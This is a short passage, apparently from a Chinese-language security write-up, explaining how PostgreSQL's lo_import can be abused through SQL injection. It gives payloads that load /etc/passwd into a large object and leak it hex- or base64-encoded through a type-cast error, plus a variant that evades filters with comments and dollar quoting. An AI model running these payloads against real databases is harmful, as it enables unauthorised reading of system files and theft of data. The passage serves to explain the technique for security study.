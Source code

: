 lo\_import 允许指定文件系统路径。该文件将被读取并加载到一个大对象中，并返回该对象的 OID。

```bash
Select lo_import('/etc/passwd',12345678);
select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a

-- 单引号被转义的情况下使用
select/**/lo_import($$/etc/passwd$$,11111);
select/**/cast(encode(data,$$base64$$)as/**/integer)/**/from/**/pg_largeobject/**/where/**/loid=11111
```

[![9.png](assets/1710208076-4c85a7ff8347715ae08fdbb51be7a862.png)](https://storage.tttang.com/media/attachment/2022/04/13/bf8a1ad0-0207-4e22-bdd6-95ae662d4278.png)
